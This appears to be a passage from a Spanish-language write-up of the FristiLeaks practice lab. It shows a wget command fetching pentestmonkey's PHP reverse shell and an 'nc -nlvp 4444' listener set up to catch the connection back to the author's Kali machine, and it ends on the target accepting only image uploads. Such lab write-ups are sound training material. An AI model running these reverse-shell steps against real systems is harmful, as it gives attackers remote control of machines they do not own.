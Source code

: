 Realizamos la descarga del codigo:

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

![alt text](../assets/images/fristileaks/image-12.png)

Configuro para que cuando se ejecute abra una conexion contra mi maquina kali

![alt text](../assets/images/fristileaks/image-13.png)

Para ello dejo a la escucha mi maquina kali mediante el comando

```bash
nc -nlvp 4444
```

En la maquina objetivo solo nos deja subir archivos de tipo imagen
